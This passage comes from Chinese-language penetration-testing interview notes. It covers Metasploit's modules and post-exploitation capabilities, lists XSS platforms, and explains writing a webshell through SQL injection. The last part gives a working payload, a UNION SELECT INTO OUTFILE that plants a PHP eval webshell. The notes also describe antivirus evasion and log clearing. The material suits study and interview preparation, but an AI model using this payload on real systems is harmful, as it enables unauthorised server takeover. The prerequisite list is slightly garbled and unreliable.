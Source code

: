 Metasploit
Framework(MSF)是一款开源安全漏洞检测工具，附带数千个已知的软件漏洞，并保持持续更新。Metasploit可以用来信息收集、漏洞探测、漏洞利用等渗透测试的全流程。

**模块：**

Auxiliary（辅助模块）

为渗透测试信息搜集提供了大量的辅助模块支持

Exploits（攻击模块）

利用发现的安全漏洞或配置弱点对远程目标系统 进行攻击，从而获得对远程目标系统访问权的代码组件。

Payload（攻击载荷模块）

攻击成功后促使靶机运行的一段植入代码

Post （后渗透攻击模块）

收集更多信息或进一步访问被利用的目标系统

Encoders（编码模块）

将攻击载荷进行编码，来绕过防护软件拦截

**使用：**

首先利用Auxiliary辅助探测模块扫描，嗅探，指纹识别相关漏洞，然后确认漏洞存在使用Exploit漏洞利用模块对漏洞进行利用，包括设置payload攻击载荷，设置本机监听等等。漏洞利用成功目标主机就会通过设置的端口主动连接，产生会话。进而可以进行后渗透。

**功能：**

木马免杀，抓取用户密码，关闭杀毒软件，屏幕截图，新建账号，远程登录，迁移进程，提权操作，网络嗅探，端口转发 ，内网代理，内网扫描，生成后门，清除日志等等。

**十三. 使用过什么XSS平台吗？**

答：

1.清华蓝莲花战队的BlueLotus。

2.xss-platform平台。

2.kali中的beef平台。

3.利用工具Postman。

**十四. SQL注入怎么写入webshell？**

答：

**条件：**

1、知道web绝对路径

2、有文件写入权限(一般情况只有ROOT用户有)

3、数据库开启了secure_file_priv设置

然后就能用select into outfile写入webshell

**常见手法：**

联合注入写入

?id=1' union select 1,"<?php @eval($_POST['shell']);?>",3 into outfile
'C:\\\phpstudy\\\WWW\\\sqli\\\shell.php'#

